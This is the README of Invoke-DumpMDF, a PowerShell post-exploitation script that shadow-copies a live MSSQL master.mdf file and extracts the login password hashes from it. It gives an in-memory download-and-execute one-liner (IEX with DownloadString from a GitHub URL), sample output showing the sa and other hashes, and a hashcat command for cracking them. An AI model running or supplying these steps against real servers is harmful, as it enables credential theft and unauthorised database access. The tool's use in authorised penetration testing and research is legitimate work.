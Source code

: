 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

The resulting hashes can be cracked with Hashcat.

## Requirements
- Administrative or SYSTEM level privileges are required.
- Execution on MSSQL Servers

## Usage
```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-DumpMDF/refs/heads/main/Invoke-DumpMDF.ps1")

# Execute
Invoke-DumpMDF
```
  
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best64.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c
- https://github.com/xpn/Powershell-PostExploitation/blob/master/Invoke-MDFHashes/Get-MDFHashes.ps1
